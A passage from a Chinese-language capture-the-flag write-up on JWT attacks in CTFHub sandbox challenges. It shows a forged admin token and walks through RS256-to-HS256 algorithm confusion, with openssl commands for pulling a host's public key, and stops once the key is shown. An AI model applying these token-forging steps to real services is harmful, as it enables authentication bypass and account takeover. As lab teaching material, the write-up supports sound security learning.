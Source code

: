 生成新的JWT
```shell
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwicGFzc3dvcmQiOiJhZG1pbiIsInJvbGUiOiJhZG1pbiJ9.As2u3UYQEvC1qDMEcOP66Yw6qB4ay2l1uF5WmjAPttk
```
### 4.3.4 替换token，获得flag
![image.png](https://cdn.nlark.com/yuque/0/2022/png/22669825/1645598140357-b7dd228f-c9fd-44b2-b6dd-650f6878b461.png#clientId=u43c3d3c0-d629-4&from=paste&height=318&id=u472f661c&margin=%5Bobject%20Object%5D&name=image.png&originHeight=424&originWidth=1414&originalType=binary&ratio=1&size=115197&status=done&style=none&taskId=u7510c9de-447a-495b-9ac6-69385786aa7&width=1061)


## 4.4 修改签名算法
> 有些JWT库支持多种密码算法进行签名、验签。若目标使用非对称密码算法时，有时攻击者可以获取到公钥，此时可通过修改JWT头部的签名算法，将非对称密码算法改为对称密码算法，从而达到攻击者目的。

RS256 算法需要一个私钥来篡改数据，还需要一个相应的公钥来验证签名的真实性。但是，如果我们 
能够将签名算法从 RS256 更改为 HS256，我们就会混淆服务器使用HS256算法而不是RS256算法。我们将强制应用程序只使用一个密钥来完成这两项任务，这是**HMAC**算法的正常行为。
​

**HMAC**算法是一种基于密钥的报文完整性的验证方法,其安全性是建立在Hash加密算法基础上的。
### 4.4.1 抓取token、解密
访问题目地址->输入admin/admin登录->产生token，再次刷新网址，抓包发现JWT格式token
![image.png](https://cdn.nlark.com/yuque/0/2022/png/22669825/1645599259143-a58bb077-729a-477f-be2d-72340870cd02.png#clientId=u43c3d3c0-d629-4&from=paste&height=557&id=u9f429cf3&margin=%5Bobject%20Object%5D&name=image.png&originHeight=743&originWidth=1503&originalType=binary&ratio=1&size=193351&status=done&style=none&taskId=u007eb992-b443-40ff-8adc-68d5d5821e6&width=1127)


解密发现这是RS256算法，需要公钥和私钥，私钥咱们一般人哪拿得到啊！
`**RS256 token**`：
```shell
eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwicm9sZSI6Imd1ZXN0In0.S-z1LsTmUl6kSQ8h8AtUM6T6-rk5AgTKapCh1YPxxW8Cc0FYsR3E7O4dzLFlXmatlAv_LxGESi0Cx_-OQknjUyz2klBYmq3kUyjJ1pApYQWlMAIg2XX9O5B7nnk_o1-VkPbt9rZnyqRXK3KsTEXIhK-B8tscGsA4NYMF98ZIv5sci_MciDQLLJeKxP0h8cGV3pyx0aKuYOOORKG-2f0ebkoUuVZNEonKnUc4yziUQxLWYjYHAN4t_nJBbkXTVyDjl6U-EeWjRsfXVFUynGiZCUtbtsxMxm3VBrh-VGXhThatC8Kyf2yOB3NtDUeisw0HxC3n94jI7LyBC1E59-Oqwg
```
![image.png](https://cdn.nlark.com/yuque/0/2022/png/22669825/1645599175166-5bef3cd9-93e5-495c-9a0b-420588b75b16.png#clientId=u43c3d3c0-d629-4&from=paste&height=554&id=IHQ2g&margin=%5Bobject%20Object%5D&name=image.png&originHeight=738&originWidth=1124&originalType=binary&ratio=1&size=119734&status=done&style=none&taskId=uabf59211-bd88-4ca3-b1d2-4e20fb77798&width=843)


### 4.4.2 `publickey.pem`
所以在这里我们要将算法从 `RS256` 更改为 `HS256`。
通过这种方式，工作流将从非对称加密转换为对称加密，并且我们可以使用相同的公钥签署新令牌。 
#### 1）获取 `publickey.pem`
由于这是一个公钥，所以这个密钥必须保持公开。所以你可以在互联网上找到它，或者另一个潜在的来源是服务器的 TLS 证书，它可能被重新用于 JWT 操作：
```shell
命令： 
openssl s_client -connect <主机名>:443 

将“服务器证书”输出复制到文件（例如cert.pem）并通过运行提取公钥（到名为key.pem的文件）： 
openssl x509 -in cert.pem -pubkey -noout > key.pem 

这样就可以获得任何主机的 public.pem
```


获取`publickey.pem`
此题中，访问`[http://challenge-bac2035c7422a30b.sandbox.ctfhub.com:10800/publickey.pem](http://challenge-bac2035c7422a30b.sandbox.ctfhub.com:10800/publickey.pem)`即可获得`publickey.pem`
```shell
-----BEGIN PUBLIC KEY-----
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAy1kgh65ETe9UHnHtlIB0
WkaxrwlgepVRUPi9zwx1RNosueb43idz+M9fVt7wcqetrxfrxbmNTjKCzD60xi/O
6MX1SQR75gK/eY8V+QtCQHkjo8ENLJhiCLoVet9TrGGxK82EHgtzFZJOvprPwvi1
3s1LNuCToJzS8nDQcp72WsSPamLFQgxiLGBhisw2zEZsiviVJZHNuLCOXHbGbCGH
sEMcUVYt//wCG0/MsscLLeWSr7qMQ+G9K6YbGIjrqoBg/a6EMY0Z8W3Olei+zQL5
CsTXiLBE8fjoCzHDlBqaNg/fZ9WRB+FTyc9z15CHwRCsmnweRDYO5vctCjQTIME0
oQIDAQAB
-----END PUBLIC KEY-----
```